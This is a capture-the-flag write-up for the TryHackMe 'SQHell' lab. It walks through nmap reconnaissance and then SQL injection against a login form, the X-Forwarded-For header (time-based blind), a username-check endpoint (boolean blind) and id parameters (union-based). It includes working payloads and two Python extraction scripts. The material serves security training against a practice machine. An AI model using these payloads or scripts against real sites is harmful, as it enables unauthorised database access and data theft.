 ![](./images/1.jpg)  
# TryHackMe SQHell Room Writeup

> Vinayak Chaturvedi 

---
Complete Walkthrough [SQHell](https://tryhackme.com/room/sqhell). 

#### Start the Machine

So as usual I start with the nmap scanning as my first step with following command:
`nmap -sC -sV -A4 -T4 -Pn 10.10.103.165 `

###Enumeration

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:f9:1d:c7:ce:88:43:47:96:ed:8d:33:ee:d8:83:4a (RSA)
|   256 2c:40:1e:8e:e7:07:16:b8:13:76:98:bf:78:d1:8e:72 (ECDSA)
|_  256 78:7d:3e:f6:ff:64:6d:77:c3:49:67:16:d8:89:be:0b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/16%OT=22%CT=1%CU=30454%PV=Y%DS=4%DC=T%G=Y%TM=611A4E4
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   259.02 ms 10.2.0.1
2   ... 3
4   398.69 ms 10.10.103.165

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.25 seconds

```

So here I got to know that 2 Ports open:

    22 - SSH - OpenSSH 8.2p1
    80 - HTTP - nginx 1.18.0


###### Flag 1 : 
As the room name clearly specify `SQHell` there are the Sql vulnerability. So after opeing the IP the first thing I see is the Login page and definitely there is high chance of sql injection in the login page. So I tried their firslty rather than going anywhere.

- Open the Login page. 
- let's try to inject here.
- Thier are 2 parameters namely, username and password field.
- Enter the username as admin, this is basically what we enter in username field to get the admin access.
- If we use simple payload in password field
  ```bash 
  admin' or '1'='1
  ``` 
- we successfully get the first flag.

![](./images/2.jpg) 

###### Flag 2 :
- Now there is hint for flag 2. After reading the terms & conditions I have no idea what they are saying so I just googled everything they're saying
- After some research I got to know Host Header tells the webserver which virtual host to use.
- So I searched http header sqli .

- Payloads :
```http
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Inje
ction.md#mysql-time-based
https://github.com/payloadbox/sql-injection-payload-list
https://beaglesecurity.com/blog/vulnerability/time-based-blind-sql-injection.html

```

- We have to test our payloads on header :
```bash
X-Forward-For : Payloads
```
- I can use time based SQL injection and use sleep, if the header is vulnerable the page will sleep (wait) before returning the page. The concept is simple if we successfully execute the sql query then we'll trigger a time delay of 5 sec so any response which will take more than 5 sec will be considered as true.


- I opened Burp and added the X-Forwarded-For header, I tried the payload: `'; SELECT SLEEP(5) -- -` and it works.

![](./images/3.jpg)  

- Now I know the X-Forwarded-For header is vulnerable I need to find a way to retrieve data. The flag format is ‘THM{FLAG……’ and stored in the flag column in the flag table so I can use substring to check for each character and if its a match then sleep.

- I created the below python script to automate the process:

```bash
import requests
import time
import string

url = "" #Room IP

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

flag = ""
counter = 1

payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '2') and '1'='1"

headers = {'X-Forwarded-For':payload}

while True:
    for i in characterlist:
        payload = f"1' AND (SELECT sleep(2) FROM flag where SUBSTR(flag,{counter},1) = '{i}') and '1'='1"
        headers = {'X-Forwarded-For':payload}
        start = time.time()
        r = requests.get(url, headers = headers)
        end = time.time()
        if end-start >= 2:
            flag += i
            counter += 1
            break
    print(flag)
    if len(flag) >= 43:
        exit(f"The Flag is: {flag}") 
```

- And hence we got the 2 flag

![](./images/4.jpg) 

###Flag 3 :

- If we look at the register page its possible to check if a username already exists.

- If we capture the request using burp suite we see the page is requesting with a parameter=username given

- We can use this to provide logic to determine if a condition is true or false. Using the payload: admin' and 1=2;-- - which of course is not true as 1 doesnt equal 1 returns an available = true statement.

- Below is the script to get the flag -

```bash
import requests
import string

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

ip = "" #change to machine IP

flag = ""

counter = 1

while True:
    for i in characterlist: # loop through each character in the character list
        r = requests.get("http://" +  ip + f"/register/user-check?username=admin' and (substr((SELECT flag FROM flag LIMIT 0,1),{counter},1)) = '{i}';-- -") #create request
        if 'false' in r.text: # check if return 'false' statement which indicates a match
            flag += i # add the character to the flag string
            counter += 1 # increment the counter by one to then check the next letter
            print(flag) 
            break
```

- Running the script provided the flag.

![](./images/5.jpg)

###### Flag 4 :

- Let's target the id parameter of the user. Its seems to be vulnerable.

- I tried a union select payload and repeated adding null entires until I was able to determine the number of columns which was 3.
  
  `http://10.10.103.165/user?id=1 union select null,null,null;-- -`

- However, even with an invalid user id, if I changed the first null value to 1 I could return a list of the users posts. Which would indicate another SQL query.

- Now it was just a case of finding a column which I could use to populate the flag which was column two and select the flag from the flag table. The final payload was: 
```bash 
http://10.10.103.165/user?id=2 union select "1 union select null,flag,null,null from flag",null,null from information_schema.tables where table_schema=database();-- -
```

![](./images/6.jpg)
- Hence we get the flag now !!

### Flag 5 :

Flag 5 is obtained by using union based injection Looking at the post page url, the posts are retrieved by id: 
`http://10.10.103.65/post?id=2`

- This looks injectable, to confirm I simply added a ' after the id number. Here we will get the error -
  `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1`

  - For a union select injection attack to work the number of returned columns need to match the original query

- I was then able to simple retrieve the flag using the payload: 
  `http://10.10.57.142/post?id=2 and 1=2 union select null,null,flag,null from flag`

![](./images/7.jpg)

- Hence we get the final flag
